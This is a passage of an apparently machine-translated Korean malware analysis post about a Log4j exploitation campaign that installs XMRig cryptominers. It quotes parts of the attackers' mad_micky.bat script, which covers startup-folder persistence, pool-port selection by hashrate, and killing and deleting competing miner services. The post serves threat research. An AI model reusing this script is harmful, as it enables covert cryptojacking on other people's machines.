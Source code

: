 

<p>실행 파일 Logback.exe는 또 다른 XMRig 마이닝 도구입니다.&nbsp;config.json 파일도 같은 한국 IP에서 다운받았습니다.&nbsp;이 후 cmd.exe 및 wmic 명령을 사용하여 광부를 구성했습니다.</p>



<p>이러한 파일 다운로드 및 광부 구성에 이어 Pastebin에 대한 추가 연결이 이어졌습니다.</p>



<figure class="wp-block-image"><img src="https://assets-global.website-files.com/626ff4d25aca2edf4325ff97/62d2a54849ba531521cac33f_1-4.jpeg" alt="위험한 Log4j 취약점을 악용하는 암호화폐 채굴 코드의 익스플로잇 CVE-2021-44228"/></figure>



<p><em>그림 4: mad_micky.bat 파일의 OSINT 상관관계</em></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h3>프로세스 세부 사항 — mad_micky.bat 파일</h3>



<h4>설치하다</h4>



<pre class="wp-block-code"><code>set “STARTUP_DIR=%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup”
set “STARTUP_DIR=%USERPROFILE%\Start Menu\Programs\Startup”

looking for the following utilities: powershell, find, findstr, tasklist, sc
set “LOGFILE=%USERPROFILE%\mimu6\xmrig.log”
if %EXP_MONER_HASHRATE% gtr 8192 ( set PORT=18192 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 4096 ( set PORT=14906 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 2048 ( set PORT=12048 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 1024 ( set PORT=11024 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 512 ( set PORT=10512 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 256 ( set PORT=10256 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 128 ( set PORT=10128 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 64 ( set PORT=10064 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 32 ( set PORT=10032 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 16 ( set PORT=10016 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 8 ( set PORT=10008 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 4 ( set PORT=10004 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 2 ( set PORT=10002 &amp; goto PORT_OK)
set port=10001</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h4>광부 준비 중</h4>



<pre class="wp-block-code"><code>echo &#91;*] Removing previous mimu miner (if any)
sc stop gado_miner
sc delete gado_miner
taskkill /f /t /im xmrig.exe
taskkill /f /t/im logback.exe
taskkill /f /t /im network02.exe
:REMOVE_DIR0
echo &#91;*] Removing “%USERPROFILE%\mimu6” directory
timeout 5
rmdir /q /s “USERPROFILE%\mimu6” &gt;NUL 2&gt;NUL
IF EXIST “%USERPROFILE%\mimu6” GOTO REMOVE_DIR0</code></pre>
